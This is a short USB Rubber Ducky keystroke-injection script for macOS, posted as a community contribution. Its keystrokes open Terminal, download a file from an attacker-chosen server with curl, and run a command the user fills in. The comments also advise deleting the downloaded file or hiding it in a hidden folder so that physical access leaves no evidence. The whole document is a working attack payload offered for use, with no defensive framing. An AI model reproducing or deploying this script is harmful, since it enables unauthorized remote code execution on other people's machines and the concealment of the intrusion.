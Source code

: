 This is a simple script that downloads any kind of file and executes it.  There is a script like this for windows so I figured I would contribute and make one for OS X. Edit to your specifications. Requires duck encoder 2.6.3 to work which can be downloaded at http://goo.gl/QkTXNp 

    REM Title: OS X Wget and Execute
    REM Author: Jesse Wallace (c0deous)
    REM Simple script that downloads any file and runs it. 
    REM Requires duckencoder 2.6.3 which can be downloaded at http://goo.gl/QkTXNp
    REM Note: you must put in your own specific code to execute
    
    DELAY 1000
    COMMAND SPACE
    DELAY 800
    STRING Terminal
    DELAY 500
    ENTER
    DELAY 500
    STRING curl http://SERVER/path/to/file > file
    ENTER
    DELAY 1000
    STRING INSERT COMMAND TO EXECUTE HERE
    ENTER
    REM You can chage the above line to the command used to open your program.

    REM Examples: python somescript.py , ./somescript.sh

    REM Note: This script doesn't delete the downloaded file so it may leave evidence of physical access.  Delete it as quickly as possible after this runs.
    REM Or alternatively you could hide it somewhere in a hidden folder where it won't be easily found.
